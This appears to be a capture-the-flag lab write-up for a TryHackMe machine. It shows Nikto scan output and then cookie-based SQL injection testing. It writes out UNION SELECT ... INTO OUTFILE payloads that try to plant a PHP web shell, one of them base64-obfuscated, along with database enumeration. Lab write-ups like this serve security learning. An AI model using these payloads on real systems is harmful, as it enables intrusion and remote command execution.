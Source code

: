```sh
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /config.php: PHP Config file may contain database IDs and passwords.
+ Server leaks inodes via ETags, header found with file /icons/README, fields: 0x13f4 0x438c034968a80 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7517 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-07-11 16:34:46 (GMT5.5) (1322 seconds)
```

hmm, checking cookies:

So there's this session id cookie: trying to modify it results in a error.

![](/assets/img/thm/yotd/Pasted%20image%2020220711161508.png)


adding `'` at the end of the cookie value results in a sql error. :p so can use sqli.

![](/assets/img/thm/yotd/Pasted%20image%2020220711171127.png)


I'm kinda bad at sqli and I found this resource that I am following rn: [LINK](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/)

Finding the number of columns:

![](/assets/img/thm/yotd/Pasted%20image%2020220711173213.png)

So there are 2 columns . :O We can try to insert a webshell now:

using the following payload
```html
Cookie: id=' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```
![](/assets/img/thm/yotd/Pasted%20image%2020220711173944.png)

Obviously this isn't gonna be that easy. muiriiii!!!!

obfuscated payload:
```
Cookie: id=' union select 1, '<?php system($_GET[base64_decode('Y21k')]);?>' into outfile '/var/www/html/cmd.phtml' #
```

doesn't work.

getting some details:

database name: `database()` : `webapp`
user: `user()` : `web@localhost`
version: `version()` : `5.7.34-0ubuntu0.18.04.1`

using the following payload to create a file:
```
Cookie: id=' union select 1, '' into outfile '/var/www/html/test.php' #
```
